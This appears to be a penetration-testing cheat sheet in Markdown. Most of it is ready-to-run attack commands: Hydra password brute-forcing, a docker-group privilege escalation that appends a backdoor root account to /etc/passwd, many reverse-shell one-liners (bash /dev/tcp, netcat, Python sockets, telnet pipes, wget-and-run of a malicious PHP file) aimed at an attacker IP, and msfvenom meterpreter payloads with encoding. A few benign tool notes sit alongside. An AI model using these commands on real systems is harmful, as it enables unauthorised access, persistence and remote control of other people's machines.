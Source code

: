 ### Python simple HTTP server
```Python
python -m SimpleHTTPServer 
```
### Kali Linux assign two network interfaces
Edit `/etc/network/interfaces` and add these lines
```
auto eth0 
iface eth0 inet dhcp 
 
 
auto eth1 
iface eth1 inet dhcp 

```
And then restart the network with following commands.
```bash
systemctl stop networking 
systemctl start networking 
```
### Get interactive bash shell using python
```Python
python -c "import pty;pty.spawn('/bin/bash')"
```
### Get interactive bash shell using OS.System
```
echo os.system('/bin/bash')
```
## Helpful firefox addons
### FoxyProxy
> FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns. Put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog. Proxy server switching occurs based on the loading URL and the switching rules you define
### Fireforce
> brute-force attacks on GET or POST forms

### Poster
> A developer tool for interacting with web services and other web resources that lets you make HTTP requests, set the entity body, and content type. 

## Brute-force techniques
### THC Hydra
```bash
hydra -l admin -P /usr/share/wordlist/rockyou.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 35644
```
## Privilege Escalation Techniques
[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Offensive Bash Scripts](https://github.com/6odhi/myarsenal/blob/master/README.md)
### User part of docker group   
You land on a computer and `id` shows you're part of the `docker` group. Escalate to root with:

```bash
$> docker run -it --rm -v $PWD:/mnt bash
```

adds backdoor toor:password
```bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
``` 
## Reverse shell techniques
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
```
### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
### Few more reverse shell techniques
courtesy: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

```bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
### Reverse shell payload using msfvenom
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.172.4 lport=443 -f raw

# widows asp reverse shell payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.172.4 lport=2222 -e x86/shikata_ga_nai -f asp > met.asp 

# jsp reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.172.4 lport=2222 -f raw > cmd.jsp

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.172.4 LPORT=2222 -f war > shell.war
```
## Miscellaneous Techniques
### Checking SUID files available in the system by running
> SUID(Set owner User ID up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. In simple words users will get file ownerâs permissions as well as owner UID and GID when executing a file/program/command
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm +4000 2> /dev/null
```

Set and Unset SUID on files:
```bash
$ sudo chmod u+s /usr/bin/whoami # set SUID for whoami

$ sudo chmod u-s /usr/bin/whoami # Unset SUID
```
### Port and Host IP Scanning without NMap/Permissions
[No Nmap, No Permissions, No Problem](https://www.lanmaster53.com/2010/04/16/no-nmap-no-permissions-no-problem/)
## *Nix Commands
## Kali tools
### binwalk
> Binwalk is a tool for searching a given binary image for embedded files and executable code. Specifically, it is designed for identifying files and code embedded inside of firmware images.
```bash
binwalk <img_path>

# extract images recursively
binwalk -Me <image_path>
```
